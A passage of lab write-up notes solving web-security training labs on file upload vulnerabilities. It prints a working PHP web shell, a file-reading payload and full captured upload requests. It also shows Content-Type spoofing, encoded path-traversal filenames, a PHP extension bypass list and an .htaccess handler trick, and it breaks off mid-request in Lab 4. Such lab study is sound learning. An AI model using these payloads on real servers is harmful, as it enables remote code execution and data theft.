# File upload vulnerabilities


- File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.
- Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead.
- This could even include server-side script files that enable remote code execution.
- In some cases, the act of uploading the file is in itself enough to cause damage.
- Other attacks may involve a follow-up HTTP request for the file, typically to trigger its execution by the server.
## Lab 1: Remote code execution via web shell upload




- To avail the upload functionality we have to log in using given creds `wiener:peter`,
- Here we can see avatar upload appears and we just have to upload basic `php webshell` and get the `secret from carlos user`.



- So tried to upload this basic PHP shell which uses `SYSTEM` to execute commands, and capture that req,

```php
<!DOCTYPE html>
<html>
	<head>
		<title>example webshell</title>
	</head>
	<body>
		<?php
			system($_GET['cmd']);
		?>
	</body>
</html>
```


```http
POST /my-account/avatar HTTP/1.1
Host: 0aeb00e4030de4cc8158ed55003c00de.web-security-academy.net
Connection: keep-alive
Content-Length: 552
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://0aeb00e4030de4cc8158ed55003c00de.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRN2qajyTK7vyBV5r
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00e4030de4cc8158ed55003c00de.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=IxXI6VWr8pzru7ELqgN9zlfsB8n4Mo0H

------WebKitFormBoundaryRN2qajyTK7vyBV5r
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/octet-stream

<!DOCTYPE html>
<html>
<head>
<title>example webshell</title>
</head>
<body>
<?php
system($_GET['cmd']);
?>
</body>
</html>
------WebKitFormBoundaryRN2qajyTK7vyBV5r
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryRN2qajyTK7vyBV5r
Content-Disposition: form-data; name="csrf"

nlhQonXV4LBKhQxttXGS50odez98jR3T
------WebKitFormBoundaryRN2qajyTK7vyBV5r--
```

- So now we just have to go to `/files/avatars/shell.php` location execute this file with its `cmd` parameter with any command we want,

```http
https://0aeb00e4030de4cc8158ed55003c00de.web-security academy.net/files/avatars/shell.php?cmd=id
```


- I tried to run `id` and it worked so now we can grep `secret` and submit and by submitting it we will solve the lab,
- This is particular URL with parameters, 

```http
https://0aeb00e4030de4cc8158ed55003c00de.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret
```




>[!hint]
>This is basically chaining of vulnerability like we have `file upload vulnerability` and we use it to upload shell and get `RCE vulnerability`.


## Lab 2: Web shell upload via Content-Type restriction bypass



 - To avail the upload functionality we have to log in using given creds `wiener:peter`,
 - Here we can see avatar upload appears and we just have to upload basic `php webshell` and get the `secret from carlos user`.
 - one catch is that there is `content-type` restriction which prevent users to upload any unexpected file but it is user-controllable so we can bypass it.


```http
POST /my-account/avatar HTTP/1.1
Host: 0aca00a50467484a866109f400ec00aa.web-security-academy.net
Connection: keep-alive
Content-Length: 552
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://0aca00a50467484a866109f400ec00aa.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryH8ycy7YePiWBIJlF
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aca00a50467484a866109f400ec00aa.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=GAGbcXGatHwFgukdKaG4xpEjHhd3xcgH

------WebKitFormBoundaryH8ycy7YePiWBIJlF
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/octet-stream

<!DOCTYPE html>
<html>
<head>
<title>example webshell</title>
</head>
<body>
<?php
system($_GET['cmd']);
?>
</body>
</html>
------WebKitFormBoundaryH8ycy7YePiWBIJlF
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryH8ycy7YePiWBIJlF
Content-Disposition: form-data; name="csrf"

tF3ThN8bOP8Fnzsz4HfOaCP6K04TcHwi
------WebKitFormBoundaryH8ycy7YePiWBIJlF--
```



- This gives me error, ==Sorry, file type application/octet-stream is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.==
- So maybe we can change `content-type` to png and it bypass the restriction and upload it, and it works perfectly.
- This time i used another payload to read file directly to save time,

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```



```http
https://0aca00a50467484a866109f400ec00aa.web-security-academy.net/files/avatars/shell.php
```





## Lab 3: Web shell upload via path traversal



- everything other things such as login and image upload functionality is same as previous lab,
- But In this lab, we have to exploit `path traversal` vulnerability and by chaining it we have to execute out shell,



- If we upload same shell same as before it works but this just print the content of php,
- here is the `shell.php`,

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```




- So i tried to add `../` and i URL encode `/` it and then upload the shell and when i try to access `shell.php` it renders,
- Here is why it doesn't works first case and works in second case,
	1. It doesn't render it because it saved in `static` folder where it treated as just static text.
	2. But when we do `../` it upload the file in parent directory and this `static` thing fails and we can execute it, although doing directly `../` this not worked because `/` is sanitized in backend so i just encode it with `%2F` and it works. 
- Example vulnerable flow (pseudo)

```php
// VULNERABLE
$uploaddir = '/var/www/app/static/avatars';
$filename = $_FILES['avatar']['name'];         // receives "..%2Fshell.php"
if (strpos($filename, '..') !== false) abort; // naive check (fails here if filename still encoded)
$dest = $uploaddir . '/' . $filename;         // framework decodes later -> becomes '/var/www/app/static/avatars/../shell.php'
// move_uploaded_file writes file to /var/www/app/static/shell.php (which may be inside document root)

```

```http
------WebKitFormBoundaryACFkCQsTbpDaRYgF
Content-Disposition: form-data; name="avatar"; filename="..%2Fshell.php"
Content-Type: application/octet-stream
```



- And now when we access the file we can see `secret`, and also we can see that file is in `/files` not in `/files/avatars` means `/avatars` is static directory.



## Lab 4: Web shell upload via extension blacklist bypass 


- There will some `blacklisting` defense in this lab so we have to bypass that using different techniques,
- Same as previous lab we have to login using given creds, 



- Now we capture upload req, and as expected it give `403` on shell upload,

```http
POST /my-account/avatar HTTP/1.1
Host: 0adb00c904b6a72282c9515400e900f3.web-security-academy.net
Connection: keep-alive
Content-Length: 474
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://0adb00c904b6a72282c9515400e900f3.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAGr6ncFnZKKh51ed
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0adb00c904b6a72282c9515400e900f3.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=gw5C1ORibabx8X7n4iUK3uWG2QEdW0u6

------WebKitFormBoundaryAGr6ncFnZKKh51ed
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryAGr6ncFnZKKh51ed
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryAGr6ncFnZKKh51ed
Content-Disposition: form-data; name="csrf"

Jjk83eNf6hSjXTWkM7e0IC7wTd8TtuGd
------WebKitFormBoundaryAGr6ncFnZKKh51ed--
```

- here is the `shell.php`

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```


- So now we have to brute force the `.php` extension and try those which can bypass blacklist,
- This is are some of them,

```php
.php
.php3
.php4
.php5
.php7
.phtml
```


- This many are works perfectly and we got `200` on it,

```php
.php3
.php4
.php5
.php7
```


- when i tried to access one of these it again don't render and show me plaintext so i tried previous trick `%2F` but not worked,
- Because maybe this is properly sanitized that you can't do `path traversal` so even if i upload php shell i can't able to execute it. 


- So i tried another technique which is uploading `.htaccess` file with our own definition of another custom extension with its `content-type`,

```yml
AddType application/x-httpd-php .l33t
```

```http
POST /my-account/avatar HTTP/1.1
Host: 0adb00c904b6a72282c9515400e900f3.web-security-academy.net
Connection: keep-alive
Content-Length: 456
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://0adb00c904b6a72282c9515400e900f3.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDM4TB2X7iyGMaA2B
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0adb00c904b6a72282c9515400e900f3.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=gw5C1ORibabx8X7n4iUK3uWG2QEdW0u6

